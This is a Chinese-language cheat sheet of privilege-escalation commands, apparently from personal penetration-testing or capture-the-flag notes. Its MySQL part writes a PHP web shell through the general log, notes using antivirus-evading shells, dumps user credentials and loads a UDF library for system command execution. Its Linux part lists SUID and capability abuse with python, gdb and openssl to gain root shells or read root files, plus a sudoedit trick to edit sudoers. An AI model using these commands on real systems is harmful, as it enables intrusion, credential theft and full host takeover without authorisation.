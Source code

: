 ## mysql 提权

```sql
select file_priv,user,host from mysql.user;
SELECT LOAD_FILE('C:/users/desktop.ini');
SELECT CAST(LOAD_FILE('D:/flag.txt') AS CHAR) AS res; -- 字符显示
select @@basedir;
select @@datadir;
show variables like 'datadir';

-- 基于日期写入 shell
show variables like '%general%';
set global general_log='on';
--  改变路径, 然后直接查询一句话木马（如果服务器有狗的话，需要写入免杀的马）
set global general_log_file='/Applications/MAMP/htdocs/mysql_shell.php';

-- https://www.jianshu.com/p/c29cd986e792

show global variables like '%secure_file_priv%'; --  写入权限 NULL - 不可写, ""任意写, xxx 可写入xxx, 需要 chown mysql flag 或关闭 apparmor 见 11.0 Security_apparmor.md
-- https://blog.csdn.net/qq_52344654/article/details/122143705
select * into outfile 'D:/user.sql' from mysql.user; -- 导出文件

select @@version;
select @@plugin_dir;
sqlmap -d "mysql://root:pwd@127.0.0.1:3306/test" --sql-shell
-- 上传文件
sqlmap -d "mysql://root:root@127.0.0.1:3306/test" --file-write=F:/lib_mysqludf_sys_32.dll --file-dest="D:/Program Files/MariaDB 10.2/lib/plugin/lib_mysqludf_sys.dll"
CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.dll';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll';
-- https://www.shuzhiduo.com/A/ke5jrPwm5r/

drop FUNCTION sys_eval;
drop FUNCTION sys_exec;

```

# Linux

[SUID 提权-硬盘搜:GTFOBins](#)

```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
EDITOR='nano -- /etc/sudoers' sudoedit /etc/GAMELAB

# capabilities提权
getcap -r / 2>/dev/null # 比如找到 /usr/bin/python = cap_setuid_ep  # 即用python提权
## /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
## ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
## openssl
### openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
### openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 8080 -HTTP
### curl --http0.9 -k "https://127.0.0.1:8080/root/flag/flag01.txt"

```
